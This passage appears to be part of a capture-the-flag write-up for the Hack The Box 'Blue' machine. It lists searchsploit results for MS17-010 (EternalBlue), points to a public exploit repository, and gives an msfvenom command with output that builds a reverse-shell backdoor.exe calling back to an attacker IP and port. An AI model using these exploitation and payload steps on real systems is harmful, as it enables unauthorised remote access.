### Finding suitable exploit with searchsploit

Lets check a suitable exploit for ```smb-vuln-ms17-010``` using ```searchsploit/exploit-db``` database

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Blue]
└─$ searchsploit ms17-010                              
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit)  | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                   | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)            | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                      | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                   | windows_x86-64/remote/41987.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

It seems like we have a ```metasploit``` exploit and also other manual exploits for this vulnerability

## Gaining Access

### MS17-010 Manual Exploit

While searching for manual exploits there are many methods and scripts

For exploiting ```Eternal Blue``` vulnerability , I would suggest you to take a look on this [repo](https://github.com/helviojunior/MS17-010) 

This repo contains all flavours of ```ms17-010``` exploits ranging from Windows XP - Windows 8

For this manual exploit, we will be using ```send_and_execute.py``` script to execute our own payload into the machine

In this case our payload will be a ```backdoor/reverse_shell```

Lets configure our ```reverse_shell``` using ```msfvenom```

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=6767 -f exe -o backdoor.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: backdoor.exe
```

